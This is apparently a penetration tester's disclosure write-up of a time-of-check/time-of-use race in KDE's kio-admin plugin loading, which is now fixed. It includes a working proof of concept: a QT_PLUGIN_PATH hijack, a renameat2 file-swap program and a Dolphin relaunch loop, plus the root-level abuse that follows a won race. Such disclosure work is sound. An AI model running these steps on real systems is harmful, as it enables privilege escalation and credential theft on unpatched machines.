


> *"When you want to know how things really work, study them when they're coming apart."* - William Gibson

## How I Got Here

In late 2024 I scoped out an engagement for [Radically Open Security](https://www.radicallyopensecurity.com/) targeting `kio-admin` - the KDE component that gives Dolphin (KDE's file manager) the ability to perform file operations as root.

The targets:

- **kio-admin:** Privileged helper DBus communication flow, `admin://` protocol implementation and security
- **kio:** KIO worker separation and isolation mechanisms, I/O code execution in privileged context

Wayland on Linux only. The priorities I wrote upfront included environment variable manipulation, race conditions in C++ file operations, and privilege escalation paths.

Race conditions were literally in the proposal. Sometimes you get lucky and the thing you're worried about is exactly the thing that breaks.

I scoped this before [38C3](https://events.ccc.de/congress/2024/) and started hands-on-keyboard work in January 2025 after coming back from Hamburg. Five days of code audit and pentesting, one day of reporting.

## Background

If you've ever navigated to `/root/` in Dolphin and hit that pink *"Authorization required to enter this folder"* banner, that's `kio-admin` at work:

<figure>
  
  <figcaption>Dolphin prompting for admin access when navigating to /root/</figcaption>
</figure>

Click *"Act as Administrator"*, authenticate via PolKit, and you get the yellow *"Acting as an Administrator - Be careful!"* banner with full root filesystem access:

<figure>
  
  <figcaption>Dolphin in admin mode - admin:// protocol active, full root access</figcaption>
</figure>

Under the hood, this is powered by a KIO worker plugin (`admin.so`) that gets loaded into a privileged helper process. The security model: before loading `admin.so`, KIO checks that **the binary is owned by root and isn't world-writable**. If the check passes, the plugin loads and the user gets elevated filesystem access after authenticating via PolKit.

The problem? That check and that load don't happen atomically.

## They Saw It Coming (Sort Of)

What makes this finding interesting is that the KDE developers had already thought about the binary swap problem - they just chose a mitigation that didn't go far enough.

In October 2023, Felix Ernst opened [MR #1452](https://invent.kde.org/frameworks/kio/-/merge_requests/1452) - *"Check that admin worker was installed by root"*. The MR description lays out the threat: Qt's plugin loading system searches multiple paths, and KIO's admin worker *"typically asks for elevated permissions as soon as it is started"*, which means a rogue `admin.so` planted in a user-writable plugin path could gain root access.

The [discussion thread](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_791113) is worth reading. Harald Sitter (another KDE developer) outlined the exact attack chain I would later exploit:

> *you download something*
> *you execute it (otherwise it can't do anything)*
> *it places an admin.so in a suitable place in $HOME*
> *it manipulates the plugin loading path somehow (e.g. adds QT_PLUGIN_PATH to bashrc)*
> *you use admin://*
> *malicious admin.so asks for access and has root access*

He then argued this was *"needlessly complicated"* compared to simpler attacks like replacing the PolKit authenticator or injecting via `LD_LIBRARY_PATH`, and that the user session scope must be trusted - *"or we can't trust anything ever"*.

Felix [disagreed](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_791058). His position: a user wouldn't expect that software they *haven't* installed would ask for elevated privileges. The check makes sure *"software which hasn't been installed at all (it is just a file that was moved to a specific folder) won't jump in and suddenly ask for elevated privileges"*. Even if it's a trivial check, it's a sanity check.

The MR stalled for nearly a year while Felix contacted Qt upstream about the library path issue Harald raised. It was reopened in October 2024, gained a development-environment fallback (so `kde-builder` setups still work), and [merged on October 9, 2024](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_fef74431935af9cd23f2037ac26cdd6f4946fe46).

So by the time I started auditing in January 2025, the check was roughly three months old. And the thing is - the ownership check is correct. A user-owned `admin.so` *will* fail the check. The developers just didn't account for the fact that the file at the checked path doesn't have to stay the same between the check and the load.

## Finding It

I spent the first couple of days reading through KIO's worker lifecycle - how plugins get discovered, loaded, and promoted to privileged execution. Lots of Qt abstractions, lots of DBus plumbing, and a *lot* of code that does exactly what it should. The codebase is honestly well-written, which makes the interesting parts stand out more when you find them.

The function that caught my eye was `isWorkerSecurityCompromised()` in [`kio/src/core/worker.cpp`](https://invent.kde.org/frameworks/kio/-/blob/master/src/core/worker.cpp). The check fires right before worker creation:

```cpp
// The "admin" worker will ask for elevated permissions.
// Make sure no malware hides behind the "admin" protocol.
if (protocol == QLatin1String("admin")
    && isWorkerSecurityCompromised(lib_path, protocol,
                                   error, error_text)) {
    return nullptr;
}
```

Inside `isWorkerSecurityCompromised()`, the actual verification lives in a lambda called [`onlyRootHasWriteAccess()`](https://invent.kde.org/frameworks/kio/-/merge_requests/1452/diffs#29d10d0225e7406eb37abe6b5282c0d9972ad42e_317_326):

```cpp
auto onlyRootHasWriteAccess = [](const QString &filePath) {
    QFileInfo file(filePath);
    return file.ownerId() == 0
        && (file.groupId() == 0
            || !file.permission(QFileDevice::WriteGroup))
        && !file.permission(QFileDevice::WriteOther);
};

if (onlyRootHasWriteAccess(workerPath)) {
    return false; // safe, proceed
}
```

The logic itself is correct - it checks that the file at `workerPath` is owned by root and isn't writable by group or others. But `QPluginLoader` resolves the plugin path first, `isWorkerSecurityCompromised()` calls `stat()` on it through `QFileInfo`, and then `QPluginLoader` calls `dlopen()` to actually load the library. Between the `stat()` and the `dlopen()`, the file at that path can be replaced.

Classic [CWE-367](https://cwe.mitre.org/data/definitions/367.html). I'd been staring at the code for maybe two days at this point and had that feeling where you're not sure if you're seeing a real bug or just pattern-matching too hard. Time to prove it.

## Weaponizing It

Knowing the race window exists is one thing. Proving it's exploitable is another. The attack combines two weaknesses: Qt's plugin path inheritance model (which lets unprivileged users control where KIO looks for `admin.so`) and the non-atomic ownership check (which can be defeated with a fast enough file swap).

The exploitation overview:

1. Set `QT_PLUGIN_PATH` to a user-controlled directory
2. Create a symbolic link to the real root-owned `admin.so`, and compile our own malicious `admin.so` inside that directory
3. Rapidly exchange the malicious `admin.so` with the symbolic link
4. Bypass the check, execute code from our `admin.so`

### Step 1 - QT_PLUGIN_PATH Hijacking

This is the enabler that Harald Sitter [warned about](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_791113) in the original MR discussion. Qt's plugin loader respects the `QT_PLUGIN_PATH` environment variable - and Dolphin inherits the user's environment. Set it, and Qt searches our directory before the system plugin path.

```bash
mkdir -p /home/user/plugins/kf6/kio/
export QT_PLUGIN_PATH=/home/user
```

That's it. No symlink tricks to escape a sandbox, no `LD_PRELOAD` shenanigans. Just an environment variable that Qt trusts in a context where it probably shouldn't. The KDE developers [acknowledged](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_1046585) this vector existed and were working with Qt upstream to address it, but the ownership check was merged in the meantime as a partial mitigation.

### Step 2 - Setting Up the Attack Directory

We need two files in our controlled plugin directory.

First, a symbolic link that points to the system-installed `admin.so`:

```bash
ln -s /usr/lib/qt6/plugins/kf6/kio/admin.so \
      /home/user/plugins/kf6/kio/malicious-symlink
```

When `QFileInfo` follows this symlink, it sees root ownership - this is the file that passes the check:

```
$ ls -la /home/user/plugins/kf6/kio/
lrwxrwxrwx 1 user user  37 Jan 14 14:25 malicious-symlink -> /usr/lib/qt6/plugins/kf6/kio/admin.so
```

Second, our malicious `admin.so`. I hijacked some function entries in the `kio-admin` codebase itself to print "PWNED" on load, recompiled it with my own user ownership, and dropped it in:

```bash
mv /home/user/admin.so /home/user/plugins/kf6/kio/admin.so
```

### Step 3 - The Binary Switcheroo

Now the fun part. We need to atomically swap these two files fast enough to land in the window between `stat()` and `dlopen()`.

The Linux `renameat2` syscall with `RENAME_EXCHANGE` does exactly this - atomically swaps two directory entries at the VFS level. No intermediate state where neither file exists. This is the standard technique for file-based TOCTOU exploitation, and there's a good writeup on it in [Jorian Woltjer's Binary Exploitation book](https://book.jorianwoltjer.com/binary-exploitation/race-conditions#faster-attempts---rename_exchange).

```c
/* race-renameat2.c */
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[])
{
    if (argc != 3) {
        printf("Usage: %s <file1> <file2>\n", argv[0]);
        return 1;
    }

    while (1) {
        syscall(SYS_renameat2, AT_FDCWD, argv[1],
                AT_FDCWD, argv[2], RENAME_EXCHANGE);
    }

    return 0;
}
```

```bash
gcc ./race-renameat2.c -o swap -O3 -static
```

Run it in the background, endlessly exchanging the two files:

```bash
cd /home/user/plugins/kf6/kio/
./swap ./admin.so ./malicious-symlink
```

### Step 4 - Winning the Race

On a second terminal, run Dolphin in admin mode in a loop and watch for hits:

```bash
while true; do
    dolphin --admin 2>&1 | grep PWNED & DOLPHIN_PID=$!
    sleep 1.5
    pkill -9 dolphin
    wait $DOLPHIN_PID 2>/dev/null
    echo "Iteration completed"
done
```

At the moment KIO calls `stat()` through `QFileInfo`, `renameat2` may have just swapped in `malicious-symlink` (which resolves through the symlink to the root-owned real binary) - **check passes**. By the time `dlopen()` runs a few instructions later, `renameat2` may have swapped back our malicious `admin.so` - **attacker code runs in the privileged context**.

When we win the race, "PWNED" is printed on the terminal - our `admin.so` was loaded by Dolphin, bypassing the check. When we lose, either the real library loads normally (symlink was in place for both check and load) or nothing loads at all (malicious binary was there for the check, fails ownership verification, Dolphin errors out).

I spent an annoying amount of time initially wondering why I wasn't hitting the window at all - turns out I had the symlink and the binary names reversed. The kind of mistake you only make when you've been staring at the same terminal for four hours. Once I fixed that:

**Tested success rate: ~4 out of 100 attempts.**

Not a one-shot exploit, but at 1.5 seconds per attempt that's about 40 seconds to a reliable win. For malware sitting quietly in the background waiting for the user to open Dolphin in admin mode? More than enough.

## Impact

The race exploit can be run passively in the background by malware that has infected the user's session. When the race is won and the custom plugin loads, privilege escalation is possible - either by phishing the admin password from the user or by running malicious operations as root in the filesystem (e.g. rewriting `/etc/shadow`).

The threat model is a local attacker - or more realistically, malware already running as the user - that wants to escalate to root. The attacker just waits for the victim to use Dolphin's admin mode: navigating to a root-owned directory, editing a system config file, anything that triggers the PolKit prompt. When the race is won:

- **Phish the admin password** - the plugin runs inside the PolKit authentication flow, so a convincing fake prompt harvests credentials silently
- **Arbitrary privileged filesystem operations** - rewrite `/etc/shadow`, plant a SUID binary, modify systemd units
- **Silent persistence** - the user sees Dolphin working normally (or a brief glitch), while the malicious plugin has already done its thing

~25 attempts for a reliable win. Under a minute of automated retries. And the user has no idea anything happened.

## The Fix

I communicated the issue to Felix Ernst (KDE) on January 18, shared detailed exploitation steps on January 23, and the fix landed as [MR #1806](https://invent.kde.org/frameworks/kio/-/merge_requests/1806) on January 30. Solid turnaround.

The fix eliminates the race window entirely by changing *what* is verified:

- **Before:** Check that the binary *file* has correct permissions (`stat()` on the resolved path) - bypassable because the file at that path can change between check and use
- **After:** Check that the admin worker was loaded from KIO's standard plugin directory (`PLUGINDIR`) - a directory that should only be writable by root on a correctly configured system

Instead of verifying mutable file attributes on a path that can be swapped underneath you, the fix verifies the *origin directory*. If `admin.so` didn't come from where KIO's system-installed plugins live, it gets rejected. No race window, because the directory path is a property of the filesystem hierarchy - not a property of a file that can be atomically exchanged.

The fix also guards against exploitation through Qt library path manipulation, as documented in [`QCoreApplication::libraryPaths()`](https://doc.qt.io/qt-6/qcoreapplication.html#libraryPaths). This addresses both the TOCTOU race *and* the plugin path inheritance issue that enabled it - the two weaknesses that, separately, the developers had considered manageable, but together made for a practical exploit.

## Timeline

| Date | Event |
|---|---|
| 2023-10 | [MR #1452](https://invent.kde.org/frameworks/kio/-/merge_requests/1452) opened - admin worker ownership check proposed |
| 2024-10-09 | MR #1452 merged after year-long discussion |
| 2024-11 | Engagement scoped and proposal delivered |
| 2024-12-27 - 12-30 | [38C3](https://events.ccc.de/congress/2024/) (Hamburg) |
| 2025-01 | Hands-on-keyboard audit begins |
| 2025-01-18 | TOCTOU race condition discovered, PoC developed, communicated to KDE developer |
| 2025-01-23 | Detailed exploitation steps shared with Felix Ernst |
| 2025-01-30 | Fix submitted - [MR #1806](https://invent.kde.org/frameworks/kio/-/merge_requests/1806) |
| 2025-02 | Audit concludes, final report delivered |

## References

- [MR #1806 - Prevent hard to execute privilege escalation with kio-admin](https://invent.kde.org/frameworks/kio/-/merge_requests/1806) (the fix)
- [MR #1452 - Check that admin worker was installed by root](https://invent.kde.org/frameworks/kio/-/merge_requests/1452) (the original hardening commit)
- [MR #1452 discussion - attack vector analysis](https://invent.kde.org/frameworks/kio/-/merge_requests/1452#note_791113) (Harald Sitter's attack chain outline)
- [`onlyRootHasWriteAccess()` in worker.cpp](https://invent.kde.org/frameworks/kio/-/merge_requests/1452/diffs#29d10d0225e7406eb37abe6b5282c0d9972ad42e_317_326) (the vulnerable check)
- [CWE-367: Time-of-check Time-of-use (TOCTOU) Race Condition](https://cwe.mitre.org/data/definitions/367.html)
- [Race Conditions: Faster Attempts with RENAME_EXCHANGE](https://book.jorianwoltjer.com/binary-exploitation/race-conditions#faster-attempts---rename_exchange) - Jorian Woltjer
- [QCoreApplication::libraryPaths()](https://doc.qt.io/qt-6/qcoreapplication.html#libraryPaths) - Qt 6 docs


*Responsible disclosure was followed throughout. No CVE has been assigned for this issue.*

*Thanks to Felix Ernst and the KDE security team for the quick fix turnaround, and to [Radically Open Security](https://www.radicallyopensecurity.com/) for the engagement.*
